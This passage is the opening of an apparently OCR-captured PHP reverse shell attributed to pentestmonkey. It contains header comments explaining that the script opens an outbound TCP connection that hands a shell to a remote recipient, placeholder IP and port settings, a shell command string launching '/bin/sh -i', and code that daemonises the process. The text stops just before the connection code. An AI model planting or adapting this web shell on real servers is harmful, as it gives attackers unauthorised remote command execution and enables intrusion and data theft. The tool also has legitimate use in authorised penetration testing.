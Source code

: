 ```
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
//
// Daemonise ourself if possible to avoid zombies later
//
// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
// Change to a safe directory
chdir("/");
// Remove any umask we inherited
umask(0);
//
// Do the reverse shell...
//
// Open reverse connection
```